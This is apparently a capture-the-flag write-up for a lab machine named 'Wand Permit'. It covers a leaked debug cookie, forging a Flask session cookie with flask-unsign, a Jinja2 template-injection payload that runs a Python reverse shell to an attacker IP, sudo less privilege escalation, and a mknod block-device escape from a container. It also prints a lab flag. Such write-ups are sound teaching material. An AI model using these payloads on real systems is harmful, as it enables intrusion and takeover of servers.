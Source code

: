 # Wand Permit

## User flag

### Enumeration
First things first, nmap scan returns only 2 ports open: `80 http` and `5432 postgresql`.
Now, I'll go poke around the webserver, meanwhile I started a gobuster search on the url which returned:
```bash
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.229.188
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/12/02 14:28:12 Starting gobuster in directory enumeration mode
===============================================================
/search               (Status: 302) [Size: 197] [--> login]
/logout               (Status: 302) [Size: 197] [--> login]
/login                (Status: 200) [Size: 1445]
/app                  (Status: 302) [Size: 197] [--> login]
/meetings             (Status: 302) [Size: 197] [--> login]
/forgotpassword       (Status: 200) [Size: 1245]
/verification         (Status: 302) [Size: 197] [--> login]
```
As we can see we are always redirected to login page.
The nmap script also returns the presence of `robots.txt`, which shows 1 disallowed entry: `/static/CHANGELOG.txt`:
![CHANGELOG|width=250px](./changelog.png)

We can see some usefull info:
On version 2.3.0 it has been added the manifest plugin, with a bit of research i found that this plugin saves its configuration file in /static/manifest.json
![MANIFEST](./manifest.png)

We found 2 js files:
- main-bundle.js
- dev-48644bcc829deeffe29e-bundle.js

![main-bundle|width=250px](./main-bundle.png) ![dev-bundle|with=250px](./dev-bundle.png)

In the first file I found an instresting api endpoint `/testing/dev/api/register`, but only developers can access this endpoint. So moving on the second file we can see that the function is preparing a Cookie header, and with some console.log we get the full cookie string: `Cookie: x-debug-key-v3=038663befb1ad868a62035cf5d685adb`.

### Foothold

Now sending a GET request using burp to intercept the packet and adding the just found Cookie string we can access the api endpoint which returned a registration form which we can use to create a user.
![burp](./burp.png)

We can now login with the newly created user and access the pages.
In order to schedule a meeting we need to verify our accounts so looking at verification page it tells us to upload an image with a qr code to do the verification and it gives us an example image: ![wiz](./wizard_id.png)

I just reuploaded the example png and it got me verified. We could also decode the qrcode which returned a base45 encoded string modify it and create a new qrcode to upload.

Then in order to access the meetings page we need to be a staff member. Looking at the traffic with burp we have a session cookie which presumembly is a `flask-session-cookie` because it is a python webserver.

Let's try to unsign it using `flask-unsign`:
```bash
$ flask-unsign --wordlist /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --unsign --cookie "eyJlbWFpbCI6ImRhZHlAZGFkeS5odGIiLCJpZCI6OSwic3RhZmYiOmZhbHNlLCJ2ZXJpZmllZCI6dHJ1ZX0.Y4y_5g.ahgwA_DTg0gnfCF9EVQtwnG0Fls" --no-literal-eval
[*] Session decodes to: {'email': 'dady@dady.htb', 'id': 9, 'staff': False, 'verified': True}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 1261440 attemptsEks
b'sss'
```

Now we can sign our own cookie using the found secret:
```bash
$ flask-unsign --sign --cookie "{'email': 'dady@dady.htb', 'id': 9, 'staff': True, 'verified': True}" --secret 'sss'
eyJlbWFpbCI6ImRhZHlAZGFkeS5odGIiLCJpZCI6OSwic3RhZmYiOnRydWUsInZlcmlmaWVkIjp0cnVlfQ.Y473Dw.uHR7TX6TNpYG9hwWv9DGFqw_Axk
```

We can now access the meetings page. On this page there is only a user search box which returns the output of the searched string. Therefore I tryed with a simple SSTI payload `http://10.129.229.188/meetings?email={{7*7}}` which returned 49.

### User Flag
Querying for subclasses it returns Popen so we have RCE and we can get a reverse shell:
```bash
http://10.129.255.149/meetings?email={{().__class__.__base__.__subclasses__()[397]('python+-c+\'import+socket,os,pty%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.2",4444))%3bos.dup2(s.fileno(),0)%3bos.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bpty.spawn("/bin/sh")\'',shell=True,stdout=-1).communicate()[0].strip()}}
```

We are now inside the machine and judging by the hostname we are inside a container  
```bash
sparkles@d08d143f2369:~/$ cat user.txt
HTB{ef6400e22a00f0f7e9da3a6a6497733}
```

## Root

Looking at intresting permissions `sudo -l` it returns `(sparkles) NOPASSWD: /usr/bin/less`.
According to GTFO bins we can exploit this to gain root access.
```bash
$ sudo less /etc/profile
```
Then by typing `!/bin/bash` we get root shell.

At this point I went down a rabbit hole enumerating all the postgresql container, but eventually I got back at this one thinking carefully.

I searched a lot and at the end I found the answer on HackTricks:
> If you have access as root inside a container and you have escaped as a non privileged user to the host, you can abuse both shells to privesc inside the host if you have the capability MKNOD inside the container (it's by default).
> With such capability the root user within the container is allowed to create block device files. Device files are special files that are used to access underlying hardware & kernel modules. For example, the /dev/sda block device file gives access to read the raw data on the systems disk.
> Docker ensures that block devices cannot be abused from within the container by setting a cgroup policy on the container that blocks read and write of block devices.
However, if a block device is created within the container it can be accessed through the /proc/PID/root/ folder by someone outside the container, the limitation being that the process must be owned by the same user outside and inside the container.

```bash
# On the container as root
cd /
# Crate device
mknod sda b 8 0
# Give access to it
chmod 777 sda

/bin/sh

```
![grep](./grep.png)

### Root Flag
![flag](./flag)
